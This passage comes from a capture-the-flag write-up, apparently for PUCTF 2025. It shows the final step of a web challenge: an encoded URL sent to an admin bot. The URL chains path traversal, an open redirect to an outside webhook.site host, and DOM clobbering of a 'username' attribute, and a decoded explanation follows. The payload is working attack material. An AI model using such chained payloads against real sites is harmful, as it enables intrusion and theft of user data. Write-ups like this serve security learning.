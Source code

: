 ![](https://github.com/siunam321/CTF-Writeups/blob/main/PUCTF-2025/images/Pasted%20image%2020250501195436.png)

> Note: Remember to set CORS (Cross-Origin Resource Sharing) headers. Otherwise, your malicious memo won't get fetched. This is because the memo fetching is now cross-origin because of the open redirect.

- Send the following link to the bot

```
http://%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%64%69%74%3f%72%65%64%69%72%65%63%74%3d%68%74%74%70%73%3a%2f%2f%77%65%62%68%6f%6f%6b%2e%73%69%74%65%2f%64%31%66%65%34%39%61%65%2d%37%38%34%64%2d%34%61%34%37%2d%62%66%64%65%2d%34%34%63%63%30%32%39%62%62%62%38%32:@localhost:3000/approve?notice=%3c%61%20%68%72%65%66%20%69%64%3d%75%73%65%72%3e%3c%2f%61%3e
```

The first part of the URL encoded string is to clobber attribute `username`, so that it'll fetch our malicious memo via open redirect, which is this:

```
../../../../../edit?redirect=https://webhook.site/d1fe49ae-784d-4a47-bfde-44cc029bbb82
```
